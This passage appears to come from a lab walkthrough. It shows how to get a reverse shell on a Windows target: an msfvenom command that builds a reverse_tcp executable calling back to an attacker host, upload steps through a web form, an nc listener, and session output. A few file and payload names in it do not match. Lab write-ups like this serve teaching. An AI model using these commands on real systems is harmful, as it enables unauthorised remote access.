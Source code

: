 ```
Connection from 10.10.70.179 50849 received!
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Downloads>
```
#### Create staged meterpreter shell for Windows target.
1. Create the msfvenom payload.
```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell3.exe LHOST=10.10.18.162 LPORT=1234
```
2. Upload `shell3.exe` to target server.
* Browse to `http://10.10.70.179` in attacker’s browser.
* Click ‘Browse’ button.
* Navigate to `/root/shell2.exe`.
* Click ‘Open’ to select the file.
* Click ‘Submit’ to upload the file.
3. Create nc listener on attacking machine.
```
nc -lvnp 1234
```
4. Execute the shell.
* RDP to the target.
* Open a browser.
* Browse to `http://127.0.0.1/uploads`.
* Save `shell3.exe`.
* Run file.
5. Session established.
```
connection from 10.10.70.179 51018 received!
```
